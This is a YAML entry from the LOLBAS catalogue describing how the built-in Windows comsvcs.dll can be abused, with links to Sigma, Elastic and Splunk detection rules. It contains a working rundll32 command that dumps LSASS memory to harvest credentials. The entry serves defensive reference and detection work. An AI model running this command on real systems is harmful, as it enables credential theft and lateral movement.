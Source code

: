```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author: LOLBAS Team
Created: 2019-08-30
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: Windows
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/1ff5e226ad8bed34916c16ccc77ba281ca3203ae/rules/windows/process_creation/win_process_dump_rundll32_comsvcs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b81839e3ce507df925d6e583e569e1ac3a3894ab/rules/windows/process_access/sysmon_lsass_dump_comsvcs_dll.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_comsvcs_procdump.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/dump_lsass_via_comsvcs_dll.yml
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
    Handle:
---
```

